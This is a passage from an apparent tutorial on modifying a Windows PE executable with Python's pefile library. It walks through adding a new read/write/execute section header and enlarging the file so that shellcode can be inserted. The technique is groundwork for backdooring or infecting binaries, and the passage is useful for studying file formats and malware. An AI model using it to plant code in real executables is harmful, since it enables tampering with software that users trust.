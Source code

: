 Our new section header have been added to the executable, but the loader can't see it yet. We nee to modify some value into the main structure header of the file first:

* `NumberOfSections`, in the `FILE_HEADER` must be increased by 1.
* `SizeOfImage`, in the `OPTIONAL_HEADER`, must be equal to the (VirtualAddress + VirtualSize (size of our new header)). 
* Enlage the size of the executable.

Concerning this last part, I remind you that we told to the executable that there is a new section of 4096 bytes somewhere, so we have to add some empty space to comply with the header information but also to add our shellcode. We only created the section header not the section itself.

```python
import pefile
import mmap
import os


def align(val_to_align, alignment):
    return ((val_to_align + alignment - 1) / alignment) * alignment


def addSection(exe_path):
    # Init variables
    original_size = os.path.getsize(exe_path)
    pe = pefile.PE(exe_path)

    number_of_section = pe.FILE_HEADER.NumberOfSections
    last_section = number_of_section - 1
    file_alignment = pe.OPTIONAL_HEADER.FileAlignment
    section_alignment = pe.OPTIONAL_HEADER.SectionAlignment
    new_section_offset = (pe.sections[number_of_section - 1].get_file_offset() + 40)

    # Look for valid values for the new section header
    raw_size = align(0x1000, file_alignment)
    virtual_size = align(0x1000, section_alignment)
    raw_offset = align((pe.sections[last_section].PointerToRawData +
                        pe.sections[last_section].SizeOfRawData),
                       file_alignment)

    virtual_offset = align((pe.sections[last_section].VirtualAddress +
                            pe.sections[last_section].Misc_VirtualSize),
                           section_alignment)
    
    # CODE | EXECUTE | READ | WRITE
    characteristics = 0xE0000020 
    # Section name must be equal to 8 bytes
    name = ".axc" + (4 * '\x00')

    # Create the section
    # Set the name
    pe.set_bytes_at_offset(new_section_offset, name)
    # Set the virtual size
    pe.set_dword_at_offset(new_section_offset + 8, virtual_size)
    # Set the virtual offset
    pe.set_dword_at_offset(new_section_offset + 12, virtual_offset)
    # Set the raw size
    pe.set_dword_at_offset(new_section_offset + 16, raw_size)
    # Set the raw offset
    pe.set_dword_at_offset(new_section_offset + 20, raw_offset)
    # Set the following fields to zero
    pe.set_bytes_at_offset(new_section_offset + 24, (12 * '\x00'))
    # Set the characteristics
    pe.set_dword_at_offset(new_section_offset + 36, characteristics)

```